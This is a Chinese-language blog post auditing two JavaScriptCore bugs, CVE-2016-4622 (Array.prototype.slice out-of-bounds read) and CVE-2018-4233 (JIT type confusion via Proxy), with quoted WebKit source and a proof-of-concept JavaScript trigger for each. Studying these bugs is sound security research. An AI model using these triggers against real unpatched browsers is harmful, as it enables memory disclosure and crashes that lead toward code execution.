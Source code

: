 ```yaml
---
layout: post
title:  "CVE 代码审计-updating"
categories: pwn
tags: pwn
excerpt: CVE 代码审计-updating
mathjax: true
---
```


* content
{:toc}

### Overview

开这个帖的目的是从代码审计的角度记录一些漏洞的原理，抛开后续利用的部分，保持对代码的敏感。

#### 1. JSC的Array.prototype.slice 越界访问 (CVE-2016-4622)

漏洞存在于JavascriptCore 的 %Array.prototype.slice 。

1. 首先获取array 的长度
2. 将参数（开始和结束的索引参数）转换为int，并将它们限制了[0，length）的长度范围
3. 如果fastpath 可用，把从begin到end的数据拷贝到一个新创建的array中，没有边界检查

问题在于参数转换为int时可以执行到用户定义的代码。参数绑定的valueOf函数会被调用，在这个callback中可以定义array 的长度，造成oob 越界访问

```cpp
EncodedJSValue JSC_HOST_CALL arrayProtoFuncSlice(ExecState* exec)
{
    // http://developer.netscape.com/docs/manuals/js/client/jsref/array.htm#1193713 or 15.4.4.10
    JSObject* thisObj = exec->thisValue().toThis(exec, StrictMode).toObject(exec);
    if (!thisObj)
        return JSValue::encode(JSValue());
    unsigned length = getLength(exec, thisObj);  //[1]
    if (exec->hadException())
        return JSValue::encode(jsUndefined());

    unsigned begin = argumentClampedIndexFromStartOrEnd(exec, 0, length);   // [2]
    unsigned end = argumentClampedIndexFromStartOrEnd(exec, 1, length, length);

    std::pair<SpeciesConstructResult, JSObject*> speciesResult = speciesConstructArray(exec, thisObj, end - begin);
    // We can only get an exception if we call some user function.
    if (UNLIKELY(speciesResult.first == SpeciesConstructResult::Exception))
        return JSValue::encode(jsUndefined());

    if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj))) {  //[3]
        if (JSArray* result = asArray(thisObj)->fastSlice(*exec, begin, end - begin))
            return JSValue::encode(result);
    }

    JSObject* result;
    if (speciesResult.first == SpeciesConstructResult::CreatedObject)
        result = speciesResult.second;
    else
        result = constructEmptyArray(exec, nullptr, end - begin);

    unsigned n = 0;
    for (unsigned k = begin; k < end; k++, n++) {
        JSValue v = getProperty(exec, thisObj, k);
        if (exec->hadException())
            return JSValue::encode(jsUndefined());
        if (v)
            result->putDirectIndex(exec, n, v);
    }
    setLength(exec, result, n);
    return JSValue::encode(result);
}
```

[代码地址](https://github.com/WebKit/webkit/blob/320b1fc3f6f47a31b6ccb4578bcea56c32c9e10b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp#L848)


```cpp
static inline unsigned argumentClampedIndexFromStartOrEnd(ExecState* exec, int argument, unsigned length, unsigned undefinedValue = 0)
{
    JSValue value = exec->argument(argument);
    if (value.isUndefined())
        return undefinedValue;

    double indexDouble = value.toInteger(exec);
    if (indexDouble < 0) {
        indexDouble += length;
        return indexDouble < 0 ? 0 : static_cast<unsigned>(indexDouble);
    }
    return indexDouble > length ? length : static_cast<unsigned>(indexDouble);
}
```

poc

```js
var a = [ ];
for (var i = 0; i < 100; i++) { 
    a.push( i + 0.123);
}
var end = {
    valueOf : function () {
        a.length = 0;
        return 10;
    }
};
a.slice (0,end);
// [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]
```

问题1: 如何确保修改a.length后,a的长度真的改变了 ?

查看a.length 的实现 JSArray::setLength

```cpp
    unsigned lengthToClear = butterfly->publicLength() - newLength;
    unsigned costToAllocateNewButterfly = 64; // a heuristic.
    if (lengthToClear > newLength &&
        lengthToClear > costToAllocateNewButterfly) {
        reallocateAndShrinkButterfly(exec->vm(), newLength);
        return true;
    }
```
将length缩小，要确保lengthToClear 大于64才行，也就是新旧length 的差大于64 。所以创建了100个元素的array


#### 2. JSC的JIT compiler 优化问题(CVE-2018-4233) Pwn2Own '18

优化的目的是检测出冗余的check,并消灭它. 例如

```
v0 = LoadArgument 0  
CheckIsInteger v0
v1 = IntegerAdd v0 , 42  
CheckIsInteger v0  
v2 = IntegerMul v0 , 42
```
其中两次检查v0是否属于int就是冗余的检测，简单的相加后类型不会改变

通过控制流图追踪在每个路径上的check。必须考虑到两次check中object的类型变化,例如

```
v0 = LoadArgument 0 
CheckHasProperty v0 , "foo " 
v1 = LoadProperty v0 , "foo " 
v2 = ToNumber v1 
v3 = NumberAdd v2 , 1
CheckHasProperty v0 , "foo"
StoreProperty v0 , "foo ", v3
```
第二次CheckHasProperty的check就非常必要，在ToNumber的操作过程中可能触发任何Javascript code,foo属性也可能被删除。
为了检测这种情况，编译器需要了解IR中的所有操作及相关的副作用.缺少类型检查可能导致类型混淆漏洞。

CVE-2018-4233 漏洞中假定 CreateThis (用于在constructor中创建新object)没有任何副作用，在优化中消除了多余的check。然而通过Proxy中定义handler的get方法，可以在CreateThis过程中执行任意的javascript code

POC中JIT compiler假设Constructor 函数的第一个参数是double array.而且在开始也check通过，但是check过后，在Proxy callback中修改了array类型导致了double 和 JS value的类型混淆漏洞。


```js
function Constructor(a,v) { 
    a[0] = v;
}
var trigger = false;
var arg = null;
var handler = {
    get(target, prop) {
        if(trigger){
            arg[0] = {};
        }
        return target[prop];
    }
};
var EvilProxy = new Proxy(Constructor, handler);
for(var i=0;i<100000;i++>){
    new EvilProxy([1.1,2.2,3.3],13.37);
}
trigger = true;
arg = [1.1,2.2,3.3]
new EvilProxy(arg,3.54484805889626e−310);
arg[0]
```
3.54484805889626e−310 表示为 0x414141414141 ，被当作一个指针解析，造成了access violation

![](IMG/cve-updating/cve-2018-4233.png)

#### 3.